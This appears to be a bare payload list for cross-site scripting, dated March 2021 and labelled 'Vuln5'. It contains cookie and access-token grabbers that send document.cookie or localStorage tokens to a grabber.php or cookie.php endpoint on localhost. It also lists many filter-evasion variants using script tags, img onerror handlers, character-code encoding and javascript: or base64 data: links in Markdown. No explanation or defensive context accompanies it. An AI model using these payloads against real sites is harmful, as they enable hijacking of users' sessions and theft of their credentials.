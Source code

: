 ## 29 Mart 2021 Pazartesi ## Time: 20:33 Vuln5





## Payload List Data grabber for XSS ## 

<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>

-------------------------------------------------------------
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
----------------------------------------------------------------

<script>new Image().src='http://localhost/cookie.php?c='+document.cookie;</script>
-----------------------------------------------------------------

<script>new Image().src='http://localhost/cookie.php?c='+localStorage.getItem('access_token');</script>

-------------------------------------------------------------
## XSS in HTML/Applications ##

<script>alert('XSS')</script>

<scr<script>ipt>alert('XSS')</scr<script>ipt>

"><script>alert("XSS")</script>

"><script>alert(String.fromCharCode(88,83,83))</script>

## Img tag payload ##

<img src=x onerror=alert('XSS');>

<img src=x onerror=alert('XSS')//

<img src=x onerror=alert(String.fromCharCode(88,83,83));>

<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>

<img src=x:alert(alt) onerror=eval(src) alt=xss>

"><img src=x onerror=alert("XSS");>

"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
-----------------------------------------------------------------
## XSS in Markdown ##
[a](javascript:prompt(document.cookie))

[a](j a v a s c r i p t:prompt(document.cookie))

[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[a](javascript:window.onerror=alert;throw%201)


